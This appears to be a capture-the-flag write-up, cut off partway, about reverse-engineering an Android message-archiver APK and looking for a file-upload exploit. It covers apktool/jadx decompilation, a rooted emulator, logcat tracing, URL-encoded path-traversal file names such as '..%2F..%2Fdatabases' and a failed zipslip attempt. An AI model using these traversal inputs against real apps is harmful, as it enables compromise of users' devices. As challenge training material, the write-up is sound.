










# Task 7 - Finale - (Vulnerability Research, Exploitation)

Now that we have access to the hidden channel the adversary is using, our military counterparts want to act quickly to destroy the adversary's capacity to continue with their attack against our military networks.

Analysts have been quickly scrutinizing the data from the privileged channel. They conclude that the adversary has downloaded a custom app to archive all messages sent in the channel locally to their phone. They have also surmised the adversary is running a recent version of Android on a Google Pixel phone. This is the opportunity we have been waiting for! If we can devise a way to exploit on to the adversary's device we will have the advantage.

Another team has retrieved the custom application APK file for you to analyze.


## Downloads

  - [Custom App (mmarchiver.apk)](Downloads/mmarchiver.apk)
  - [Licenses (licenses.txt)](Downloads/licenses.txt)

## Prompt

    Submit a file to be posted to the Mattermost Channel that will be processed by the app and exploits the device. Be careful, we might only be able to do this once!

## Solution

---

Given a custom Android app, the first thing we should do is take a look at the [manifest](https://developer.android.com/guide/topics/manifest/manifest-intro), `AndroidManifest.xml`. An [APK](https://en.wikipedia.org/wiki/Apk_(file_format)) file is just a ZIP archive, however simply unzipping will not yield readable files. We can use [Apktool](https://apktool.org/) to open the archive with readable files by using `java -jar .\apktool_2.12.1.jar decode -o mmarchiver.out .\mmarchiver.apk`

The first line of `AndriodManifest.xml` tells us the information we need to know to proceed:
```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:compileSdkVersion="36" android:compileSdkVersionCodename="16" package="com.badguy.mmarchiver" platformBuildVersionCode="36" platformBuildVersionName="16">
```

Adding information beyond `a recent version of Android on a Google Pixel phone`, we can see that the app is compiled to target [Android 16](https://dragonball.fandom.com/wiki/Android_16) aka [SDK 36 (Baklava)](https://apilevels.com/). Armed with this information, let's install [Android Studio](https://developer.android.com/studio) and set up a Google Pixel emulator.

After installing Android Studio, click the `More Actions` button and select `SDK Manager`:



Make sure that API level 36.0 is selected both on both the `SDK Platforms` and `SDK Tools` tabs and click `Apply` to download them if not present. These will be used later for compilation.

| SDK Platforms | SDK Tools |
|:-------------:|:---------:|
|  |  |

Next, go back to select `More Actions` again and open `Virtual Device Manager`. Click the plus symbol to `Create Virtual Device`. Search for "pixel" and select `Pixel 9 Pro XL` to get the latest flagship model with a large screen for viewing and click `Next`. On the `Configure virtual device` screen, make sure that the API is `API 36.0 "Baklava"; Android 16.0` and select `Android Open Source` for `Services`. This is very important, as using [Android Open Source Project (AOSP)](https://source.android.com/) will allow root access to the emulator! Click `Finish` to create the device and then click the play button to `Start` the device.



If all has gone well, you should have a Google Pixel 9 Pro XL emulator running ready to install the app on. Do so by dragging and dropping `mmarchiver.apk` onto the screen. Click on the app to launch and fill in the `Mattermost Server URL` as http://10.0.2.2:8065 (make sure the local Mattermost instance from task 6 is still running). Click `Start` and use the username and password from task 6 then click `OK`. 

| App Settings | App Running |
|:---:|:----:|
|  | 

To test the app and connection to Mattermost, upload the [test.txt](test.txt) file to Mattermost, open the mmarchiver app and press `Stop` and then `Start` again. This will trigger the app to immediately check the server. There should be a notification that the file download and the file can be found in the `Files` app under path `sdk_gphone64_x86_64/Android/data/com.badguy.mmarchiver/files`

| Mattermost Upload | App Running | test.txt Archived in Files |
|:---:|:----:|:----:|
 |  | 

Now that we have the app functioning, we can take a look at what is happening under the hood. Either `adb.exe` is in your shell path or you can call it from the installation directory `%localAppData%\Android\Sdk\platform-tools`. Open a shell and execute `.\adb.exe root` to gain root privledges for exploring the filesystem and then run `.\adb.exe shell` to explore. Run `cd /data/data/com.badguy.mmarchiver/` to enter the app's directory which consists of the following folders and files:
``` sh
drwx------   7 u0_a217 u0_a217        4096 2026-01-01 21:16 .
drwxrwx--x 188 system  system        16384 2026-01-02 17:55 ..
drwxrws--x   6 u0_a217 u0_a217_cache  4096 2026-01-01 21:40 cache
drwxrws--x   2 u0_a217 u0_a217_cache  4096 2026-01-01 21:16 code_cache
drwxrwx--x   2 u0_a217 u0_a217        4096 2026-01-01 21:26 databases
drwxrwx--x   3 u0_a217 u0_a217        4096 2026-01-04 17:52 files
drwxrwx--x   2 u0_a217 u0_a217        4096 2026-01-01 21:16 no_backup

com.badguy.mmarchiver/cache:
total 52
drwxrws--x 6 u0_a217 u0_a217_cache 4096 2026-01-01 21:40 .
drwx------ 7 u0_a217 u0_a217       4096 2026-01-01 21:16 ..
-rw------- 1 u0_a217 u0_a217_cache    0 2026-01-09 21:31 archive_database.lck
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 data
drwx--S--- 2 u0_a217 u0_a217_cache 4096 2026-01-07 20:08 download
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 oat_primary
drwx--S--- 4 u0_a217 u0_a217_cache 4096 2026-01-14 23:30 zippier

com.badguy.mmarchiver/cache/data:
total 24
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 .
drwxrws--x 6 u0_a217 u0_a217_cache 4096 2026-01-01 21:40 ..
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 user

com.badguy.mmarchiver/cache/data/user:
total 24
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 .
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 ..
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 0

com.badguy.mmarchiver/cache/data/user/0:
total 24
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 .
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 ..
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 com.badguy.mmarchiver

com.badguy.mmarchiver/cache/data/user/0/com.badguy.mmarchiver:
total 24
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 .
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 ..
drwx--S--- 2 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 no_backup

com.badguy.mmarchiver/cache/data/user/0/com.badguy.mmarchiver/no_backup:
total 20
drwx--S--- 2 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 .
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 ..
-rw------- 1 u0_a217 u0_a217_cache    0 2026-01-09 21:17 androidx.work.workdb.lck

com.badguy.mmarchiver/cache/download:
-rw------- 1 u0_a217 u0_a217_cache       4 2026-01-14 23:14 test.txt


com.badguy.mmarchiver/cache/oat_primary:
total 24
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 .
drwxrws--x 6 u0_a217 u0_a217_cache 4096 2026-01-01 21:40 ..
drwx--S--- 2 u0_a217 u0_a217_cache 4096 2026-01-02 17:56 x86_64

com.badguy.mmarchiver/cache/oat_primary/x86_64:
total 636
drwx--S--- 2 u0_a217 u0_a217_cache   4096 2026-01-02 17:56 .
drwx--S--- 3 u0_a217 u0_a217_cache   4096 2026-01-01 21:16 ..
-rw------- 1 u0_a217 u0_a217_cache 639664 2026-01-02 17:56 base.art

com.badguy.mmarchiver/cache/zippier:
total 40
drwx--S--- 4 u0_a217 u0_a217_cache 4096 2026-01-14 23:30 .
drwxrws--x 6 u0_a217 u0_a217_cache 4096 2026-01-01 21:40 ..
drwxrwsrwx 2 root    u0_a217_cache 4096 2026-01-14 23:30 extract
drwxrwsrwx 3 root    u0_a217_cache 4096 2026-01-10 11:41 formats

com.badguy.mmarchiver/cache/zippier/extract:
total 16
drwxrwsrwx 2 root    u0_a217_cache 4096 2026-01-14 23:30 .
drwx--S--- 4 u0_a217 u0_a217_cache 4096 2026-01-14 23:30 ..

com.badguy.mmarchiver/cache/zippier/formats:
total 32
drwxrwsrwx 3 root    u0_a217_cache 4096 2026-01-10 11:41 .
drwx--S--- 4 u0_a217 u0_a217_cache 4096 2026-01-14 23:30 ..
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-10 11:41 oat

com.badguy.mmarchiver/cache/zippier/formats/oat:
total 28
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-10 11:41 .
drwxrwsrwx 3 root    u0_a217_cache 4096 2026-01-10 11:41 ..
drwx--S--- 2 u0_a217 u0_a217_cache 4096 2026-01-10 11:41 x86_64

com.badguy.mmarchiver/cache/zippier/formats/oat/x86_64:
total 24
drwx--S--- 2 u0_a217 u0_a217_cache 4096 2026-01-10 11:41 .
drwx--S--- 3 u0_a217 u0_a217_cache 4096 2026-01-10 11:41 ..

com.badguy.mmarchiver/code_cache:
total 16
drwxrws--x 2 u0_a217 u0_a217_cache 4096 2026-01-01 21:16 .
drwx------ 7 u0_a217 u0_a217       4096 2026-01-01 21:16 ..

com.badguy.mmarchiver/databases:
total 516
drwxrwx--x 2 u0_a217 u0_a217   4096 2026-01-01 21:26 .
drwx------ 7 u0_a217 u0_a217   4096 2026-01-01 21:16 ..
-rw-rw---- 1 u0_a217 u0_a217  45056 2026-01-10 11:41 archive_database
-rw------- 1 u0_a217 u0_a217  32768 2026-01-14 23:14 archive_database-shm
-rw------- 1 u0_a217 u0_a217 416152 2026-01-14 23:14 archive_database-wal

com.badguy.mmarchiver/files:
total 36
drwxrwx--x 3 u0_a217 u0_a217 4096 2026-01-04 17:52 .
drwx------ 7 u0_a217 u0_a217 4096 2026-01-01 21:16 ..
drwx------ 2 u0_a217 u0_a217 4096 2026-01-14 23:14 datastore
-rw------- 1 u0_a217 u0_a217    0 2026-01-04 17:52 profileInstalled
-rw------- 1 u0_a217 u0_a217    8 2026-01-01 21:16 profileinstaller_profileWrittenFor_lastUpdateTime.dat

com.badguy.mmarchiver/files/datastore:
total 24
drwx------ 2 u0_a217 u0_a217 4096 2026-01-14 23:14 .
drwxrwx--x 3 u0_a217 u0_a217 4096 2026-01-04 17:52 ..
-rw------- 1 u0_a217 u0_a217  168 2026-01-14 23:14 mm_archiver.preferences_pb

com.badguy.mmarchiver/no_backup:
total 676
drwxrwx--x 2 u0_a217 u0_a217   4096 2026-01-01 21:16 .
drwx------ 7 u0_a217 u0_a217   4096 2026-01-01 21:16 ..
-rw-rw---- 1 u0_a217 u0_a217 106496 2026-01-14 23:14 androidx.work.workdb
-rw------- 1 u0_a217 u0_a217  32768 2026-01-14 23:14 androidx.work.workdb-shm
-rw------- 1 u0_a217 u0_a217 523272 2026-01-14 23:14 androidx.work.workdb-wal
```
In a [Git Bash](https://gitforwindows.org/) shell, run `./adb logcat` to see the emulator logs updating live. Stop and start the app again to find the PID and then run `./adb logcat | grep "PID"` to only see the app logs (note: this will hide some of the PIDs that spawn from the app). We can see that the important part of the logs for our `test.txt` upload are as follows:
```sh
01-14 23:14:33.182  2453 15549 D FileDownloadWorker: downloading file id=tr9iqijoppbp8p6zo5qs9sx1gw name=test.txt
01-14 23:14:33.182  2453 15736 D MmAuthInterceptor: adding token to request: 9q66omgz8tydpej1s863z4938y
01-14 23:14:33.199  2453 15735 D FileDownloadWorker: file written to /data/user/0/com.badguy.mmarchiver/cache/download/test.txt
01-14 23:14:33.199  2453 15735 D d       : [DefaultDispatcher-worker-5] getting format for txt
01-14 23:14:33.199  2453 15735 D b       : [DefaultDispatcher-worker-5] creating archive at /storage/emulated/0/Android/data/com.badguy.mmarchiver/files/test.txt-1768450473199.tar.xz
01-14 23:14:33.201  2453 15735 D b       : [DefaultDispatcher-worker-5] adding entry b[test] to archive file
01-14 23:14:33.207  2453 15735 I FileDownloadWorker: archived file test.txt successfully
01-14 23:14:33.215  2453 15735 I FileDownloadWorker: file download failed, requeueing (error=GET_FILE_FAILED)
01-14 23:14:33.215  2453 15735 D PreferencesRepository: saving file_download_attempts 1
01-14 23:14:33.219  2453  2453 D MainScreenViewModel: notifications enabled: true
01-14 23:14:33.219  2453  2453 D MainScreenViewModel: token is set
01-14 23:14:33.219  2453  2453 D MainScreenViewModel: status is ArchiverStatus(running=true, error=NONE)
01-14 23:14:33.219  2453  2532 I WM-WorkerWrapper: Worker result SUCCESS for Work [ id=8e4fba35-c8a7-4b4f-bd47-0f5a8edd2c3a, tags={ com.badguy.mmarchiver.worker.FileDownloadWorker } ]
01-14 23:14:33.220  2453  2453 D WM-Processor: d 8e4fba35-c8a7-4b4f-bd47-0f5a8edd2c3a executed; reschedule = false
01-14 23:14:33.220  2453  2453 D WM-SystemJobService: 8e4fba35-c8a7-4b4f-bd47-0f5a8edd2c3a executed on JobScheduler
01-14 23:14:33.220  2453  2532 D WM-GreedyScheduler: Cancelling work ID 8e4fba35-c8a7-4b4f-bd47-0f5a8edd2c3a
01-14 23:14:33.221  2453  2453 D MainScreenViewModel: notifications enabled: true
01-14 23:14:33.221  2453  2453 D MainScreenViewModel: token is set
01-14 23:14:33.221  2453  2453 D MainScreenViewModel: status is ArchiverStatus(running=true, error=NONE)
```

---

Now that we know how to run and observe the app, we can start taking a look at the source code. We can use [jadx](https://github.com/skylot/jadx) GUI to decompile `mmarchiver.apk` into [java](https://www.java.com/en/) code. 

We find our way into `com/badguy.mmarchiver/worker/FileDownloadWorker` into  `FileDownloadWorker.doFileDownload()` function and then into `FileDownloadWorker.writeFileToDisk()`

---


Notice that file downloader has no checks against path traversal

Wonder how to create a file name with slashes in it that can live on my computer and be submitted to the challenge website

Try URL encoding and other various unsuccessful tactics
```
01-03 21:59:36.279  4590  4590 D WM-WorkerWrapper: Starting work for com.badguy.mmarchiver.worker.FileDownloadWorker
01-03 21:59:36.287  4590 16525 D FileDownloadWorker: file written to /data/user/0/com.badguy.mmarchiver/cache/download/..%2F..%2Fdatabases%2Ftest.txt
01-03 21:59:36.288  4590 16525 D b       : [DefaultDispatcher-worker-5] creating archive at /storage/emulated/0/Android/data/com.badguy.mmarchiver/files/..%2F..%2Fdatabases%2Ftest.txt-1767495576287.tar.xz
01-03 21:59:36.315  4590  4610 I WM-WorkerWrapper: Worker result SUCCESS for Work [ id=95e97ba7-538d-41e0-a783-09f791bfef70, tags={ com.badguy.mmarchiver.worker.FileDownloadWorker } ]
```

Try a zipslip attack and find that the zip implementation has a canonical path check

However, it looks like zip files are extracted
```
01-03 22:43:07.212  4590  4590 D WM-WorkerWrapper: Starting work for com.badguy.mmarchiver.worker.FileDownloadWorker
01-03 22:43:07.223  4590 16883 D FileDownloadWorker: file written to /data/user/0/com.badguy.mmarchiver/cache/download/test6.zip
01-03 22:43:07.223  4590 16883 D a       : [DefaultDispatcher-worker-3] processing zip archive /data/user/0/com.badguy.mmarchiver/cache/download/test6.zip
01-03 22:43:07.223  4590 16883 D b       : [DefaultDispatcher-worker-3] creating archive at /storage/emulated/0/Android/data/com.badguy.mmarchiver/files/test6.zip-1767498187223.tar.xz
01-03 22:43:07.242  4590 16883 D b       : [DefaultDispatcher-worker-3] deleting extraction directory /data/user/0/com.badguy.mmarchiver/cache/zippier/extract/test6
